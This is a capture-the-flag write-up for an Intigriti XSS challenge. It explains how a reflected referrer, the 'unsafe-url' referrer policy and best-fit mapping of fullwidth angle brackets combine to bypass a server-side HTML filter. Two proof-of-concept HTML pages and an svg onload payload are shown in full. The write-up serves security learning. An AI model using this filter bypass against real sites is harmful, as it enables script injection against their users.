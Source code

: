 ```yaml
---
layout: single
title: Exploiting Best-fit Mapping Transformations
date: 2021-12-26
classes: wide
tags:
  - Intigriti
  - XSS
  - Challenge
  - E1u5iv3F0x
---
```


Exploit best-fit mapping transformations to execute arbitrary javascript code.

![share](/assets/images/intigriti/2021/12/share.jpg)

## TL;DR

The solution that I came up with consists of two flaws: a weak referrer policy and a best-fit mapping transformation. If you are not familiar with best-fit mapping, here is a brief description from [Netsparker](https://www.invicti.com/web-vulnerability-scanner/vulnerabilities/unicode-transformation-best-fit-mapping/).

> A best-fit mapping occurs when one Unicode character is substituted by a similar looking character. This might happen, for example, if a Unicode string is converted to an ASCII string. Due to the vast differences in the amount of available characters, many encoding functions try to map complex Unicode characters to a similarly looking character in ASCII. Á becomes A, ò becomes o, and so on.

## Overview

The challenge seems simple at first glance. You click on a cracker until it breaks an reveals more elements.

![merry xmas](/assets/images/intigriti/2021/12/merry-xmas.png)

This is later skipped by adding a query parameter `open=true` (the value could be anything).

I was able to quickly identify one source of user input. It is the `payload` query parameter, which gets set after submitting a value inside the cracker’s hidden elements. The input is then reflected onto the page inside a heading.

Here an example result with the query parameters `?open=y&payload=example`:

![example payload](/assets/images/intigriti/2021/12/example-payload.png)

The next logical step is to try and inject HTML. However, it looks like there is a strong filter on the server-side. Everything between angle brackets is removed, including the brackets.

![filter](/assets/images/intigriti/2021/12/filter.png)

My next attempt is to use unicode characters. Sometimes the server side transforms unicode characters into regular ASCII. This is also known as the best-fit mapping, where unknown characters are matched with closest looking characters. I even found a great article on this subject. I chose to use a fullwidth [less-than](https://util.unicode.org/UnicodeJsps/character.jsp?a=FF1C) and [greater-than](https://util.unicode.org/UnicodeJsps/character.jsp?a=FF1E) signs.

Unfortunately, the result is not transformed into ASCII.

![best-fit mapping attempt](/assets/images/intigriti/2021/12/best-fit-mapping-attempt.png)

Here is where I am at a dead-end once again. Nothing came to mind that could work.

Fortunately, Intigriti’s tip came out and gave me a new idea!

![intigriti's tip](/assets/images/intigriti/2021/12/intigriti-tip.png)

I didn’t even notice that when adding a payload parameter that an HTML comment saying *“Referer: “* appears.

So, I made a quick exploit, in order to add value to the reflected referrer.

```html
<!DOCTYPE html>

<head>
    <script>
        if (location.href.indexOf("payload") < 0)
            location = location.href + '?payload=example';
    </script>
</head>

<body>
    <iframe src="https://challenge-1221.intigriti.io/challenge/index.php?payload=x&open=y"
        height="1000px" width="1000px"></iframe>
</body>

</html>
```

I used VS Code’s Live server extension to serve my PoC on port 5500. However, upon visiting `127.0.0.1:5500/index.html?payload=example` the result is missing the referrer’s path and is only showing the domain.

![example referrer payload](/assets/images/intigriti/2021/12/referrer-reflection.png)

I looked up information about iframe referrer policies and found [this page](https://www.w3schools.com/tags/att_iframe_referrerpolicy.asp). In the Attribute Values table there is an `unsafe-url` option which might just do the trick.

![referrerpolicy values](/assets/images/intigriti/2021/12/referrerpolicy-values.png)

Here is the result of adding `referrerpolicy=”unsafe-url”` to the frame.

![example referrer payload](/assets/images/intigriti/2021/12/example-referrer-payload.png)

Now, after injecting text, it’s time to try HTML as well. The payload is now changed to `127.0.0.1:5500/index.html?payload=--></h4><svg+onload=alert(document.domain)>`.

![encoded referrer payload](/assets/images/intigriti/2021/12/encoded-referrer-payload.png)

The brackets get encoded into HTML entities. This is troublesome since there is no way of injecting any kind of code with encoded brackets.

Here is where I go back to the best-fit mapping method. I modify my exploit to swap the angle bracket characters with the fullwidth signs from before.

```html
<!DOCTYPE html>

<head>
    <script>
        if (location.href.indexOf("payload") < 0)
            location = location.href + '?payload=--></h4><svg+onload=alert(document.domain)>'
                .replaceAll("<", "\uFF1C")
                .replaceAll(">", "\uFF1E");
    </script>
</head>

<body>
    <iframe
        src="https://challenge-1221.intigriti.io/challenge/index.php?payload=x&open=y" 
        referrerpolicy="unsafe-url"
        height="1000px" width="1000px"
    ></iframe>
</body>

</html>
```

The result is:

![injection](/assets/images/intigriti/2021/12/injection.png)

Which immediately triggers the alert upon visiting `http://127.0.0.1:5500/`.

![alert](/assets/images/intigriti/2021/12/alert.png)

Thanks for reading, I hope this was helpful!
